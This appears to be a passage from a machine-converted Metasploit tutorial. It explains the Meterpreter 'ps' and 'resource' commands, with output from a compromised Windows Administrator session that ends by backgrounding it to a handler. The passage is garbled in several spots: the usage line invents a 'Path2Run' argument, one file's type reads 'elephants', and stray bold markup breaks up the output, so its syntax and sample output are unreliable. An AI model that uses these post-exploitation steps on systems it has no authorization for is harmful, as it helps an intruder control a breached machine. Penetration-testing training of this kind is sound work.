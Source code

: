## ps

Displays all running processes on the target computer.

```bash
meterpreter > ps

Process list
**============**

PID Name Path
--- ---- ----
132 VMwareUser.exe C:\Program Files\VMware\VMware Tools\VMwareUser.exe
152 VMwareTray.exe C:\Program Files\VMware\VMware Tools\VMwareTray.exe
288 snmp.exe C:\WINDOWS\System32\snmp.exe
...snip...
```

## resource

When you connect to the other computer, after a while you realize that the operations you perform are the same. For example, you almost always perform operations such as giving the `ls` command, entering the programs folder with `cd c:\Program Files`, etc. You can record these operations in a file on the local computer, one command per line, and run them on the other side. The `resource` command is used to make this happen.

The point to note here is that the first file you give to the resource command is searched in the local folder you are in (`lpwd`). The second parameter is run in the folder you are in on the other side (pwd).

```bash
meterpreter > resource
Usage: resource path1 path2Run the commands stored **in **the supplied files.
meterpreter >
ARGUMENTS:

path1: Our batch file in our local folder.
Path2Run: The opposite folder where the commands will be run

root@kali:~# cat resource.txt
ls
background
root@kali:~#
Running resource command:

meterpreter> > resource resource.txt
> Reading /root/resource.txt
> Running ls

Listing: C:\Documents and Settings\Administrator\Desktop
**=======================================================================**

Mode Size Type Last modified Name
---- ---- ---- ------------- ----
40777/rwxrwxrwx 0 dir 2012-02-29 16:41:29 -0500 .
40777/rwxrwxrwx 0 dir 2012-02-02 12:24:40 -0500 ..
100666/rw-rw-rw- 606 fil 2012-02-15 17:37:48 -0500 IDA Pro Free.lnk
100777/rwxrwxrwx 681984 fil 2012-02-02 15:09:18 -0500 Sc303.exe
100666/rw-rw-rw- 608 fil 2012-02-28 19:18:34 -0500 Shortcut to Ability Server.lnk
100666/rw-rw-rw- 522 elephants 2012-02-02 12:33:38 -0500 XAMPP Control Panel.lnk

> Running background

> Backgrounding session 1...
msf exploit**(**handler**)** >
```
